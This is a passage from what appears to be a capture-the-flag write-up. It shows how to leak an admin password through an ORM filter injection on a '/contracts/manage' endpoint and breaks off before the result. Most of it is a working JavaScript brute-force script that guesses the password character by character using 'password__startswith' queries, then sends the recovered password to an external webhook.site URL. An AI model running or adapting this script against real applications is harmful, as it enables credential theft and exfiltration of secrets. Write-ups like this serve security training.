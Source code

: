 This means we can leak the admin's password. To achieve this, we need to create a JavaScript script to brute-force the password:

```javascript
const characters = "abcdefghijklmnopqrstuvwxyz";

let gotFullPassword = false;
let currentPassword = "";
let webhook = "https://webhook.site/aa05fd5b-f4da-42ee-9c08-75cc1d9a6de9";
async function bruteForce() {
  while (!gotFullPassword) {
    for (let i = 0; i < characters.length; i++) {
      const testPassword = currentPassword + characters[i];

      const prefixResponse = await fetch(
        `/contracts/manage?owner__password__startswith=${testPassword}&owner__username=admin`,
      );
      const prefixData = await prefixResponse.text();

      if (
        !prefixData.includes("No contracts found based on the current filter.")
      ) {
        currentPassword += characters[i];

        const fullResponse = await fetch(
          `/contracts/manage?owner__password=${currentPassword}&owner__username=admin`,
        );
        const fullData = await fullResponse.text();

        if (
          !fullData.includes("No contracts found based on the current filter.")
        ) {
          gotFullPassword = true;
          console.log(`Password found: ${currentPassword}`);

          await fetch(`${webhook}?x=${encodeURIComponent(currentPassword)}`);

          return;
        }

        break;
      }
    }
  }
}

bruteForce();
```

Using all of the above together gives us the admin's password:
